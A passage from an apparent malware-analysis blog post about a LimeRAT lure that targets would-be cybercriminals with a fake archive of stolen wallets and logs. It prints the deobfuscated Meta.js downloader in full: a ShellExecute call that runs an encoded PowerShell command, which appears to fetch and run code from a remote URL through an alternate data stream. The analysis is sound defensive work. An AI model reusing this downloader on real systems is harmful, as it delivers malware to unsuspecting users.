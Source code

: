 After extraction, it shows a lot of folders named with `“US” + [a unique ID] + [a time stamp]`:

![Screenshot from 2022-07-25 15-00-55.png](/assets/img/limerat-infecting-unskilled-threat-actors/Screenshot_from_2022-07-25_15-00-55.png "wallets-sorted.rar structure")
_Figure 3. wallets-sorted.rar structure_
<br />
Each folder contains a bunch of fake text files, logs, cookies, supposed cryptocurrency wallets, and more:

![Screenshot from 2022-07-25 15-01-06.png](/assets/img/limerat-infecting-unskilled-threat-actors/Screenshot_from_2022-07-25_15-01-06.png "Fake files")
_Figure 4. Fake files_
<br />

As an example, the image below shows one of the text files which is related to the RedLine stealer threat:

![Screenshot from 2022-07-25 15-07-44.png](/assets/img/limerat-infecting-unskilled-threat-actors/Screenshot_from_2022-07-25_15-07-44.png "RedLine Stealer fake log")
_Figure 5. RedLine Stealer fake log_
<br />
As a malware analyst, I once visited a group of Information stealer malware for sale on Telegram for research purposes **(I swear)**. So, I believe they got my Telegram account from there.

Some of the folders have the same JS file on them (same hash) but with different names:

![Screenshot from 2022-07-25 15-01-37.png](/assets/img/limerat-infecting-unskilled-threat-actors/Screenshot_from_2022-07-25_15-01-37.png "Folder containing suspicious files")
_Figure 6. Folder containing suspicious files_
<br />
And the Microsoft Word (.docx) files shown above contain only plain text strings on them:

![Screenshot from 2022-07-25 15-05-03.png](/assets/img/limerat-infecting-unskilled-threat-actors/Screenshot_from_2022-07-25_15-05-03.png "Fake .docx files contain plain text")
_Figure 7. Fake .docx files contain plain text_

Finally, the JS files contain an obfuscated and malicious script downloader which needs to be executed to start the attack.
<br /><br />

## 2. Downloader

Now that we know that the JS file is malicious, let’s start the analysis.

File details:

* **File name:** Meta.js
* **MD5:** 202622bcb60388ad2c74981b03763d5d
* **SHA256:** 8ac98edab8a8a2e5b9feeb6c28b2a27b6258d557c0105f087aeeaea995aee2d3
* **Content:**
![Malicious script content](/assets/img/limerat-infecting-unskilled-threat-actors/Screenshot_2022-12-12_172238.png "Malicious JS file content")
_Figure 8. Malicious JS file content_
<br />

After sanitizing the file, we can see better the malicious code:
```javascript
newActiveXObject("shElL.APPLICatION").ShElLeXECutE(
    "cmd.eXe","Cmd /c cmd /C EcHO POwERsHEll -Ec aQBFAFgAKAAoAG4AZQBXAC0ATwBiAEoARQBDAFQAIAAJAAkACQAgACAACQAgACAAIAAJACAAIAAJACAAIAAJAAkAIAAJACAACQAgACAAIAAgACAAIAAJAG4AZQB0AC4AdwBFAGIAYwBsAEkAZQBOAHQAKQAuAEQAbwB3AG4AbABPAEEARABTAFQAUgBpAE4ARwAoACcAaAB0AHQAcABzADoALwAvAGQAcgBpAHYAZQAuAGcAbwBvAGcAbABlAC4AYwBvAG0ALwB1AGMAPwBpAGQAPQAxAGMAcQBRAGsAUgB1AFMAWABCAEsAcAByAGIAZQBfAGsAOQB0ADcAZwA3AGQATwBPADQAdgA3AEkAdgBXAG0ANgAmAGUAeABwAG8AcgB0AD0AZABvAHcAbgBsAG8AYQBkACcAKQApAA== > %LOCALAPPDATA%\CU666rZi4UOVMoxz6c01t32uua51pznD9fw1Sc7r73Hc4cPU80Ysaj813h6RPH3M.png:OvP4k5Q2Q6Y1AT9mrj1U6eehRxudHKrIAPC9UxQ83pP4iuoP54G7PSeBxy02aJ11.avi & cmD- < %LOCALAPPDATA%\CU666rZi4UOVMoxz6c01t32uua51pznD9fw1Sc7r73Hc4cPU80Ysaj813h6RPH3M.png:OvP4k5Q2Q6Y1AT9mrj1U6eehRxudHKrIAPC9UxQ83pP4iuoP54G7PSeBxy02aJ11.avi","","",0
);
```
